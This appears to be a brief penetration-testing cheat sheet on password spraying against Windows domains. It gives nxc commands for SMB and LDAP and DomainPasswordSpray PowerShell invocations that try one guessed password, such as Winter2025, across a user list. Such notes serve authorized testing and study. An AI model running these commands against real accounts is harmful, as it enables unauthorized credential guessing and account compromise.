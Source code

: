# Password Spraying
Check or confirm lockout threshold
## nxc
Test a single password value with a list of user names
SMB Example:
```
nxc smb 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
LDAP Example:
```
nxc ldap 10.0.2.15 -u users.txt -p Password1 --continue-on-success
```
## DomainPasswordSpray
```
. .\DomainPasswordSpray.ps1
Invoke-DomainPasswordSpray -Password Spring2017
```
```
Invoke-DomainPasswordSpray -UserList .\users.txt -Password Winter2025 -Verbose
```
[DomainPasswordSpray Project](https://github.com/dafthack/DomainPasswordSpray)

